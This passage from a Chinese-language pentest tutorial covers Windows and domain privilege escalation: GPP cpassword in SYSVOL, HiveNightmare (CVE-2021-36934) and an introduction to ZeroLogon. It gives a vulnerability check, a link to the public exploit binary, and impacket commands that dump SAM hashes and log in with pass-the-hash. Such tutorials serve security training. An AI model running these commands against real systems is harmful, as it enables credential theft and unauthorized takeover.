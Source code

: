 msf中内置了模块用于查找这些遗留的配置文件

![7](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/prive-long/7.png)

### 获取组策略凭据

在大型的域环境中，域管理员通常会通过下发组策略来进行密码的同步修改和权限赋予等 

在新建一个组策略后，域控制器会自动在SYSVOL共享目录中生成一个XML文件，该文件保存了组策略更新后的密码。SYSVOL是在安装活动目录时创建的一个用于存储公共文件服务器副本的共享文件夹，在该目录中搜索能够看到名为Groups.xml的文件，其中的cpassword字段经过了AES256算法加密，不过微软在2012年就公布了该密钥

同样msf中有利用模块

![8](E:\笔记软件\笔记\渗透测试\内网体系建设\windows提权\8.png)

### HiveNightmare(CVE-2021-36934)

该漏洞会影响 Windows 自 2018 年 10 月以来发布的版本，即 Windows 10 Version 1809 以后的版本,但该漏洞不会影响win server

执行以下命令，查看目标是否易受攻击

```
icacls C:\windows\system32\config\SAM
```

如果目标回显“BUILTIN\Users:(I)(RX)”则说明目标易受攻击，如果不则会回显拒绝访问

![9](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/prive-long/9.png)

exp地址:https://github.com/GossiTheDog/HiveNightmare/releases/download/0.5/HiveNightmare.exe

将exp传到目标机器上，执行就能得到三个文件 SAM、SECURITY、SYSTEM，使用secretsdump.py获取目标用户的hash

```
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket/examples python3 secretsdump.py -sam SAM-xxx-xx-x system SYSTEM-xxx-xx-x security SECURITY-xxx-xx-x LOCAL
```

再使用psexec.py直接利用administrator的hash登录管理员账户，获取SYSTEM权限

```
python3 psexec.py -hashes xxxxxxxxxxxxxx:xxxxxxxxxxxxxxxxx administrator@ip cmd.exe
```

### ZeroLogon 域内提权(CVE-2020-1472)

通过调用Netlogon中的RPC函数NetrServerPasswordSet2来重置域控机器的机器账户的密码，通过机器用户来获得域控权限

```
影响版本：Windows Server 2008 R2 for x64-based Systems Service Pack 1Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation)Windows Server 2012Windows Server 2012 (Server Core installation)Windows Server 2012 R2Windows Server 2012 R2 (Server Core installation)Windows Server 2016Windows Server 2016 (Server Core installation)Windows Server 2019Windows Server 2019 (Server Core installation)Windows Server, version 1903 (Server Core installation)Windows Server, version 1909 (Server Core installation)Windows Server, version 2004 (Server Core installation)
```
